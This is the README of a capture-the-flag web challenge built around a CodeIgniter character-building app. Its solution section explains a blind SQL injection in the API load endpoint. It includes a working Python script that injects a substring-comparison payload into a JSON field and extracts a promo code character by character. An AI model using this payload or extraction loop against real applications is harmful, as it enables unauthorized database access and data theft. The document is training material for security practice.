 # It's A Party! (Hard)

A CTFd compatible docker image for a web challenge. Scenario:

CyberQuest is the hot new Cybersecurity-themed tabletop RPG coming to stores soon! The creators have asked us to pentest their character building tool and make sure there aren't any vulnerabilities. Ready to form your party?

## Setup

Run the included build-docker.sh script to build and deploy the container in docker.

## Solution

This challenge provides the source code, which the player is able to review to find vulnerabilities. This particular app is built using the PHP MVC framework, Codeigniter, which may make it a little more difficult for some players to know where to look. When the player saves their character, they are given a QR code with an embedded UUID for their saved character. In the API controller (app/Controllers/Api.php), there is an unimplemented character loading function which then takes that UUID and loads the character data. This loading function is vulnerable to SQL injection. However, the only output given is that the function is not implemented, if a character would have been loaded successfully.

By examining the code, they can see that there is a random promo code which will give them the flag and unlock a secret character. So, the player can perform an error-based SQL injection to leak the characters of the flag using a script like the one below:

```python
import requests
import string


URL = "https://dodcybersentinel-web-party.chals.io"


S = requests.Session();


for i in range(1,33):
    for c in string.hexdigits:
        R = S.post("%s/api/load" % URL,json={"cyberquest_character":"' OR '%s' = (SELECT substr(code,%d,1) FROM promo_codes) OR '2'='1" % (c,i),"debug":"false"})
        if "implemented" in R.text:
            print(c,end="")
            break
```

This script will iterate through each position of the promo code characters and test each hex character until it gets the “not implemented” message, and then moves on to the next position.

Once the entire promo code is leaked, they can enter it to unlock the CyberLord character as well as the flag!
